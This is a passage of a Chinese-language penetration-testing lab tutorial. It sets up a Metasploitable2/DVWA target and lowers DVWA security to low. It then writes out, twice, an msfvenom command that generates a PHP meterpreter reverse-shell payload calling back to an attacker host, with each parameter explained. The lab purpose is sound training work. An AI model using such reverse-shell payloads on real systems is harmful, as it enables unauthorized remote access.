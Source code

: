 使用 `sudo virsh start Metasploitable2` 命令即可启动我们的靶机系统虚拟机：

![start-metasploit.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139532596.png/wm)

等待大约四分钟，待得虚拟机完全启动之后我们打开桌面上的 Firefox：

![open-firefox.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139552463.png/wm)

访问我们的靶机系统所使用的 IP 地址`192.169.122.102`：

![view-metasploit-url.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139568548.png/wm)

正常的启动靶机系统之后，我们访问其 IP 地址可以得到这样的一个页面。

点击 DVMA 我们便可进入到 DVMA 的登陆页面，默认的登陆用户与密码是 admin 与 password，登陆之后便会进入这样的页面：

![dvwa-index.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139587112.png/wm)

为了能够进行最简单的攻击，我们会把安全默认调制最低，首先进入安全模式的调整页面：

![dvwa-config-security.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139662479.png/wm)

然后调整安全的 level 到 low：

![dvwa-config-security-1.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139678741.png/wm)

当看到页面的下方 Level 的显示变化后，说明修改成功了：

![dvwa-config-security-proof.png](https://doc.shiyanlou.com/document-uid113508labid2407timestamp1482139693059.png/wm)

### 4.3 攻击准备

启动环境之后我们便需要生成我们的攻击脚本了，在上一步中我们是提供了一个 php 的反弹 shell 脚本给大家，但是这样的脚本在不了解 php 的情况下，或者找不到类似的脚本的情况下就没办法了。

在 metasploit 为大家提供了一个 msfvenom 的工具，该工具就是利用现有的某块生成木马程序，在 2015 年 8 月之后便用该工具来替代 msfencoder 和 msfpayload。

有了它我们便可不用去熟悉 php、自己手写木马脚本了。

在 Kali 中我们使用该命令来生成木马程序：

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 LPORT=1111 R > reverse_shell.php
```

在使用 msfvenom 的时候，必须使用 `-p` 参数来生成我们的攻击脚本，该参数的全程也就是 payload。后面紧接着就是使用的模块 reverser_tcp，该脚本属于 php 的攻击脚本，所以在 php/meterpreter 的路径中。`LHOST` 的参数设置的是 kali 本地 IP 地址，因为我们是使用的本地 msfconsole 来建立连接，当然若是我们的 MSF 在其他主机上我们同样可以填写其他的 IP 地址。`LPORT` 是本地主机中一个未被占用的空闲端口。`R >reverse_shell.php` 是将生成好的文本内容重定向输出到 reverse_shell.php 中，该文件若是不存在会自动生成。

该攻击的脚本原理很简单，就是通过让目标主机执行该脚本，通过该脚本向我们的主机发起连接请求，于此同时被我们监听该端口的程序捕捉到，然后便成功的建立连接，然后便远程登陆到 shell 中，就像 ssh 与 telnet 一般。

```
cd /var/www/html
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 LPORT=1111 R > reverse_shell.php
```
